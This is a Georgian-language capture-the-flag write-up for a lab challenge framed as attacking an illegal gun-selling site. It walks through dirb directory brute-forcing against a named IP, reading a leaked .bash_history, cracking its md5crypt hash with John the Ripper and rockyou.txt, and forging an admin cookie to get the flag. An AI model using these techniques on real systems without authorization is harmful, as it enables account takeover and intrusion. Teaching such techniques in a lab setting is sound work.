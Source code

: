 # პირობა 
### კრიმინალურმა პოლიციამ აღმოაჩინა ვებ გვერდი საიდანაც შესაძლებელია იარაღის შეძენა უკანონოდ. თქვენი მიზანია განახორციელოთ შეტევა აღნიშნულ ვებგვერდზე და აღმოაჩინოთ კოდური გასაღები.

# ამოხსნის სარჩევი
## [Question 1](#question_1):
#### 1. [ვებ-გვერდის მიმოხილვა](#overview)  
#### 2. [ვებ-გვერდის ენუმერაცია (dirb)](#dirb)
#### 3. [.bash_history-ის მიმოხილვა](#.bash_history)
#### 4. [catf/admin გვერდის მიმოხილვა](#ctf-admin-page)
#### 5. [პაროლის დაკრეკვა (John The Ripper)](#john)
#### 6. [I ფლეგი](#flag_1)

# ამოხსნა

<a name="question_1"/>

კითხვა 1: პირველი ნაწილის გასაღები


<a name="overview"/>

1. პირველრიგში, შევიდეთ მოცემულ ფეიჯზე. შესვლისას გვხვდება ჩვეულებრივი საიტი, რომელიც ბევრს არაფერს გვეუბნება. არც მისი ინსპექტით გახსნის შემდეგ ვხვდებით ბევრ რამეს.
 ![index.php](.images/index.png)

<a name="dirb"/>

2. ვინაიდან მოცემული ფეიჯი არანაირ ინფორმაციას არ გვაძლევს, bruteforce-ით გადავუაროთ სახელებს და შევეცადოთ ვიპოვოთ ამ სერვერზე არსებული ფაილები თუ დირექტორიები.
ამისთვის გამოვიყენებთ ხელსაწყოს სახელად dirb:
    ```bash
    dirb <url_base> [<wordlist_file(s)>] [options]

    url_base - მისამართი რომელზეც გვინდა bruteforce (*)
    [<wordlist_file(s)>] - მისამართი ფაილზე, რომელიც შეიცავს სიტვებს. dirb გადაუყვება და ამ სიტყვების გამოყენებით შეეცდება იპოვოს დამალული მისამართი სერვერზე.
    [options] - სხვადასხვა ფლეგები (შეგიძლია დოკუმენტაციაში წაიკIთხოთ დეტალურად)
    ```
    გავუშვათ ბრძანება და ვნახოთ შედეგი:
    ```bash
    root@kali:~$ dirb http://185.212.254.50/

    -----------------
    DIRB v2.22    
    By The Dark Raver
    -----------------

    START_TIME: Sat May 30 16:44:59 2020
    URL_BASE: http://185.212.254.50/
    WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

    -----------------

    GENERATED WORDS: 4612                                                          

    ---- Scanning URL: http://185.212.254.50/ ----
    + http://185.212.254.50/.bash_history (CODE:200|SIZE:1311)                     
    + http://185.212.254.50/index.html (CODE:200|SIZE:200)                         
    + http://185.212.254.50/server-status (CODE:403|SIZE:302)                      
    ==> DIRECTORY: http://185.212.254.50/wp/                                       
                                                                                
    ---- Entering directory: http://185.212.254.50/wp/ ----
    ==> DIRECTORY: http://185.212.254.50/wp/wordpress/
    
    # აქედან ყველა დირექტორია/ფაილი ვორდპრესს ეხებოდა, ამიტომაც აქ აღარ გამოვიტან.
    # სრული ლოგის სანახავად გადადით dirb.log ფაილზე 

    -----------------
    END_TIME: Sat May 30 17:08:25 2020
    DOWNLOADED: 202928 - FOUND: 16             
                                                            
    ```
    სრული ლოგი შეგიძლიათ იხილოთ აქ --> [dirb.log](dirb.log)

    dirb-ის აუთფუთიდან შეგვიძლია დავასკვნათ, რომ საიტი აწყობილია wordpress-ზე და სხვადასხვა ლინკებზე გადასასვლელად გვჭირდება აუთენთიფიკაცია, მაგრამ სანამ გადავიდოდეთ აუთენთიფიკაციის გატეხვაზე დავაკვირდეთ რომ dirb ბრძანებამ აღმოაჩინა კიდევ ერთი ფაილი: `.bash_history` (ეს ფაილი გამოიყენება ტერმინალში აკრეფილი ბრძანებების შესანახად)

    გავხსნათ ნაპოვნი ფაილი და გადავავლოთ თვალი (უბრალოდ შევიდეთ შემდეგ მისამართზე __185.212.254.50/.bash_history__ ):
    
    ფაილი შეგიძლია იხილოთ აქ დაკლიკებით --> [.bash_history](.bash_history)

<a name=".bash_history"/>

3. [.bash_history](.bash_history) ფაილის გახსნისას ვხედავთ, რომ სერვერი აწეულია apache2-ზე. 
    აქ ჩვენთვის საინტერესო არის შემდეგი ორი ხაზი:
    * `mkdir /var/www/html/ctf/admin` (ctf არის capture the flag-ის აბრივიატურა, შესაბამისად ჩვენთვის გამოსადეგი რამ უნდა იყოს)
    * `echo 'admin:$apr1$T9QLutEh$9Y192r5I3TI52/bsdksIy.' > passwords`

<a name="ctf-admin-page"/>

4. გადავიდეთ ctf/admin ფეიჯზე:
    ![.ctf/admin](.images/ctf-admin.png)
    როგორც ვხედავთ, გვჭირდება იუზერნეიმი და პაროლი, ასევე გვეუბნება რომ გამოვიყენოთ [John The Ripper](https://www.openwall.com/john/). ეს არის ხელსაწყო, რომელიც ჰეშების plain-text-ში აღდგენაში გამოიყენება. 

<a name="john"/>

5. როგორც ctf/admin ფეიჯზე ვნახეთ, გვჭირდება იუზერნეიმი და პაროლი. შეგვიძლია ასევე დავუბრუნდეთ [.bash_history](.bash_history) ფაილს სადაც ვიპოვეთ ეს ჩანაწერი `echo 'admin:$apr1$T9QLutEh$9Y192r5I3TI52/bsdksIy.' > passwords`. როგორც ვხედავთ შენახული მომხმარებლის იუზერნეიმი არის 'admin', პაროლი კი დაჰეშილი სახით ინახება, სწორედ აქ გამოგვადგება ჩვენი ჯონი.
    ```bash
    john <hash.txt> --wordlist=<pass.txt>

    hash.txt - ფაილი რომელიც შეიცავს თქვენს ჰეშ(ებ)ს
                ფაილში შეიძლება შეინახოთ ან მარტო ჰეშები (ყოველი ახალი ჰეში ახალ ხაზზე) ან იუზერნეიმი და ჰეში ოწერტილით გამოყოფილი [Username:Hash]
    pass.txt - ფაილი რომელიც შეიცავს იმ სიტყვების სიას, რომლებიც უნდა შევამოწმოთ 
    ```

    * როგორც ვნახეთ უნდა მოვამზადოთ ჰეშების სია. ჩვენს შემთხვევაში მარტო ერთი ჰეშია. ავიღოთ ის ბრძანება, რომელიც სერვერზე გაუშვეს და გავუშვათ ჩვენც
    `echo 'admin:$apr1$T9QLutEh$9Y192r5I3TI52/bsdksIy.' > passwords`
    ამ ბრძანების შემდეგ 'passwords' ფაილში ჩაიწერება 'admin:$apr1$T9QLutEh$9Y192r5I3TI52/bsdksIy.'
    შეგიძლიათ თქვენით შექმნათ ახალი ფაილი და ხელით ჩაწეროთ ეს კონტენტი.
    შექმნილი ფაილი შეგიძლიათ იხილოთ აქ --> [passwords](passwords)

    * გვჭირდება ასევე ფაილი, რომელიც შეიცავს პაროლებს. ასეთი სიისთვის ყველაზე კარგი ვარიანტია [rockyou.txt](https://www.scrapmaker.com/download/data/wordlists/dictionaries/rockyou.txt). (ფაილის სიდიდის გამო, მხოლოდ დაზიპული ფაილის მოწოდება შემიძლია: [rockyou.txt.gz](../../utils/wordlists/rockyou.txt.gz) ამოაარქივეთ და ჩვეულებრივად შეძლებთ გამოყენებას)

    ავაწყოთ და გავუშვათ ჩვენი ბრძანება
    ```bash
    john Pentest/GunMarket/passwords --wordlist='utils/wordlists/rockyou.txt'
    ```

    აუთფუთი:
    ```bash
    john Pentest/GunMarket/passwords --wordlist='utils/wordlists/rockyou.txt'
    Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
    Use the "--format=md5crypt-long" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
    Press 'q' or Ctrl-C to abort, almost any other key for status
    admin123         (admin)
    1g 0:00:00:01 DONE (2020-05-31 07:13) 0.9009g/s 81059p/s 81059c/s 81059C/s agape1..a00000
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
    ```

    `admin123         (admin)` <-- ეს ხაზი გვეუბნება რომ `admin` იუზერნეიმის მქონე მომხმარებლის დაჰეშილი პაროლი იყო `admin123`.

    P.S. გაშვებულმა ბრძანებამ შეიძლება შემდეგი აუთფუთი დაგიბრუნოთ
    ```bash
    Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
    Use the "--format=md5crypt-long" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
    No password hashes left to crack (see FAQ)
    ```
    `No password hashes left to crack (see FAQ)` ამით ვხვდებით რომ ყველა პაროლი გაშიფრულია, მაგრამ აუთფუთში არაფერს არ გვიჩვენებს. ჯონი ჭკვიანი როჟაა და იმახსოვრებს იმ ჰეშებს, რომლებიც აქამდე გაშიფრა. ეს მესიჯიც მაგას ნიშნავს. ადრე გაშიფრული პაროლების გასაშიფრად გამოვიყენოთ `--show` ფლეგი, რომელსაც გადაეცემა გასაშიფრი ჰეშების სია. გავუშვათ შემდეგი ბრძანება:
    ```bash
    john --show Pentest/GunMarket/passwords 
    ```
    აუთფუთი:
    ```bash
    admin:admin123

    1 password hash cracked, 0 left
    ```

<a name="flag_1"/>

6. დავუბრუნდეთ ctf/admin ფეიჯს და შევიყვანოთ შემდეგი მონაცემები
    ```bash
    User Name: admin
    Password: admin123
    ```
    გადაგვიყვანა შემდეგ ფეიჯზე:
    ![.admin_page](.images/admin_page.png)
    როგორც ვხედავთ მოცემულია [Cookie Monster](https://en.wikipedia.org/wiki/Cookie_Monster)-ის სურათი. ეს ერთგვარ მინიშნებად შეგვიძლია მივიღოთ და ჩავიხედოთ cookie-ებში. (inspect -> storage -> Cookies -> http://185.212.254.50)
    ![.admin_page_cookies](.images/admin_page_cookies.png)
    username-ს გრაფაში value-დ უწერია guest_user. აქ შეგვიძლია ნებისმიერი რამ ჩავწეროთ და ფეიჯის დარეფრეშების შემდეგ გამოჩნდება ჩვენი ჩაწერილი ველიუ. იუზერნებიმი იყო admin. ფეიჯის თაითლიც არის admin_page. შეიძლება ვივარაუდოთ, რომ value უნდა იყოს admin. შევცვალოთ დავარეფრეშოთ და ვნახოთ რა მოხდება:
    ![.admin_page_flag](.images/admin_page_flag.png)
    გილოცავთ! თქვენ იპოვეთ პირველი flag. ასევე მივიღეთ მინიშნება : 'Check our wordpress site for secret staff /wp/wordpress/ !!!'
